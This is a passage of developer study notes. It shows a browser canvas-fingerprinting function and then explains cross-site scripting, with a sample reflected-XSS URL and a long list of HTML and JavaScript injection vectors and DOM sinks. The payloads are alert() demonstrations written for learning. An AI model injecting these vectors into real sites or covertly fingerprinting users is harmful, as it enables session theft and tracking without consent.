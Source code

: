 ```ts
function getCanvasFingerprint() {
  const canvas = document.createElement('canvas')
  const context = canvas.getContext('2d')
  context.font = '18pt Arial'
  context.textBaseline = 'top'
  context.fillText('Hello, user.', 2, 2)
  return canvas.toDataURL('image/jpeg')
}

getCanvasFingerprint()
```

## Security Vulnerability

### XSS

#### XSS Attack

Cross-site scripting (跨站脚本):

- Reflected XSS:
  url input (search pages)
  `http://localhost:8080/test?name=<script>alert('attack')</script>`.
- Stored XSS:
  store script into database.
- Inject script in HTML/CSS/JavaScript/JSON/HTTP:
  - `<a href=javascript:...>`.
  - `<base href=javascript:...>`.
  - `<bgsound src=javascript:...>`.
  - `<body background=javascript:...>`.
  - `<frameset><frame src="javascript:..."></frameset>`.
  - `<iframe src=javascript:...>`.
  - `<img src=x onerror=...>`.
  - `<input type=image src=javascript:...>`.
  - `<layer src=...>`.
  - `<link href="javascript:..." rel="stylesheet" type="text/css">`.
  - `<meta http-equiv="refresh" content="0;url=javascript:...">`.
  - `<object type=text/x-scriptlet data=...>`.
  - `<script>...</script>`.
  - `<style type=text/javascript>alert('xss')</style>`.
  - `<table background=javascript:...>`.
  - `<td background=javascript:...>`.
  - `<button onmouseover="alert(/1/)" onclick="alert(/2/)"></button>`.
  - `<button form="test" formaction="javascript:alert(1)">`.
  - `<button form=test onformchange=alert(2)>`.
  - `<input onfocus=write(1) autofocus>`.
  - `<form id=test onforminput=alert(1)><input></form>`.
  - `<audio onerror=javascript:alert(1)>`.
  - `<audio><source onerror="javascript:alert(1)"></audio>`.
  - `<video onerror=javascript:alert(1)>`.
  - `<video><source onerror="javascript:alert(1)"></video>`.
  - `@import ""`.
  - `background: url("")`.
  - `window.name`.
  - `window.location`.
  - `document.domain`.
  - `document.referrer`.
  - `document.location.assign()`.
  - `document.location.replace()`.
  - `document.write()`.
  - `element.innerHTML`.
  - `element.outerHTML`.